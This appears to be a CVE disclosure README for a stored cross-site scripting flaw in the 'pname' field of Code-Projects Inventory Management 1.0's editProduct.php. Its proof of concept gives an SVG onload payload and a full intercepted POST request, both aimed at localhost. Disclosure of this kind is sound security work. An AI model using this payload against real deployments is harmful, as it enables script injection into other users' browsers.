 # CVE-2023-46580-Code-Projects-Inventory-Management-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'pname' parameter in the /editProduct.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46580
+ Affected Version: Inventory Management V1.0
+ Vulnerable File: editProduct.php
+ Parameters: pname
+ Attack Type: local
# Description
+ The parameter pname in the /editProduct.php file of Code-Projects Inventory Management V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Register and login the panel
+ Go to Products --> Edit Product
+ Click Submit
+ Intercept the POST request to editProduct.php via Burp Suite
+ Inject the payload to the vulnerable parameter
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `pname` parameter
```
POST /Inventory-Management/model/editProduct.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://localhost
Connection: close
Referer: http://localhost/Inventory-Management/model/editProduct.php?id=12
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

pname=AloeVera+Gel"><svg/onload=alert(document.domain)>&buy=56&sell=14&id=12&Submit=Submit
```
+ Go to the Products page and trigger the XSS --> http://localhost/Inventory-Management/model/product.php
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/e57d7def-e5b7-425d-a329-33c84090927c">
